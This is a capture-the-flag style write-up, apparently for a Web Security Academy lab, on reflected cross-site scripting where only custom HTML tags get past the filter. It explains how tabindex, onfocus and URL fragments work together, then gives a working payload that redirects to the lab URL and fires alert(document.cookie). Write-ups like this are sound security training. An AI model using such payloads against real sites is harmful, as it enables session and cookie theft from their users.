


# Reflected XSS into HTML context with all tags blocked except custom ones
# Objective
This lab blocks all HTML tags except custom ones.\
\
To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.

# Solution
## Analysis
If user clicks TAB different h1 block would be chosen (onfocus):
- `1 x TAB` - First Heading
- `2 x TAB` - Second Heading
- `3 x TAB` - Third Heading

```html
<h1 tabindex=”1”> Heading1 - SomeText </h1>
<h1 tabindex=”2”> Heading2 - SomeText </h1>
<h1 tabindex=”3”> Heading3 - SomeText </h1>
```

3 times TAB = Third block would be chosen (`onfocus`) = `alert()` would be executed.
```html
<h1 tabindex=”1”> Heading1 - SomeText </h1>
<h1 tabindex=”2”> Heading2 - SomeText </h1>
<h1 tabindex=”3” onfocus="alert()"> Heading3 - SomeText </h1>
```

In this example function `alert()` could be triggered by searching for specified `id` after `#` in URL.
`http//:$ip#i3` - would cause payload to execute
```html
<h1 tabindex=”1” id="i1"> Heading1 - SomeText </h1>
<h1 tabindex=”2” id="i2"> Heading2 - SomeText </h1>
<h1 tabindex=”3” onfocus="alert()" id="i3"> Heading3 - SomeText </h1>
```

## XSS Exploit

```
<customtag tabindex="1" onfocus="alert()" id="i1">
```
||
|:--:| 
| *Test of custom heading payload* |
||
| *Result* |

In order to make payload automatic `iframe` tag will have to be used.\

Final payload:

```js
<script>
location = 'https://0abc003b04aff4f380c7e45f008e0093.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

```
//URL-Decoded /?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```